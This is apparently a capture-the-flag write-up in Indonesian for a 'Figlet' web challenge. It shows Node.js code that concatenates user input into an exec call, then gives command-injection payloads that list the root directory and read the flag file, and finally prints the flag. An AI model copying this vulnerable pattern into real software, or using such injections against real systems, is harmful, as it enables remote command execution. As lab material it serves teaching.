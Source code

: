 # **FIGLET**
Figlet adalah sebuah program komputer yang digunakan untuk menghasilkan teks berukuran besar dalam gaya seni ASCII. Nama "Figlet" sendiri merupakan kependekan dari "Frank, Ian, and Glenn's LETters". Program ini dibuat oleh sekelompok programmer pada tahun 1991 dan telah menjadi populer di kalangan komunitas pengguna Unix dan Linux.
Figlet dapat mengubah teks biasa menjadi teks berukuran besar dengan berbagai gaya huruf yang kreatif, seperti huruf-huruf berkontur, huruf-huruf berbayang, huruf-huruf yang terdiri dari karakter-karakter kecil, dan banyak lagi. Program ini menawarkan berbagai pilihan gaya huruf yang bisa dipilih sesuai dengan preferensi pengguna.
## **About the challenge**
Pada challenge kali ini, probleset membuatkan sebuah website untuk temannya yang menyukai seni ASCII. Web tersebut setelah dianalisis memiliki vulnerability pada inputannya.

![figlet1](./image/figlet1.PNG)
## **Solution**
- Buka App.js yang diberikan oleh probleset dan analisis code tersebut.
- Pada kode yang diberikan, terdapat potensi kerentanan terkait dengan Command Injection. Potensi kerentanan ini terdapat pada bagian code berikut:
```javascript
app.post('/figlet', (req, res) => {
    let cmd = 'timeout 1 figlet \'' + req.body.text + '\'';
    exec(cmd, (err, stdout, stderr) => {
        if (err) {
            console.log(stderr);
            res.send('Error');
        } else {
            res.send(stdout);
        }
    });
});
```
Disini saya dapat mengirimkan teks yang mengandung karakter khusus seperti tanda petik tunggal (') atau karakter pemisah perintah (seperti ; atau &&) yang dapat mengubah arti perintah yang dieksekusi. Contohnya seperti ini :
```
hello';ls /;echo '1
```
Output dari teks yang saya masukkan diwebsite tersebut seperti ini :

![figlet2](./image/figlet2.PNG)

Dapat dilihat flag nya dengan format[kodeacak].txt, saya bisa read flag tersebut dengan kode dibawah ini :
```
hello';cat /flag-3eb436c4-1dd2-4e01-b1f9-af7c2af01481.txt;echo '1
```
And we got flag
```
ForestyHC{w0w_u_can_hack_figl33t_7d7c1b}
```
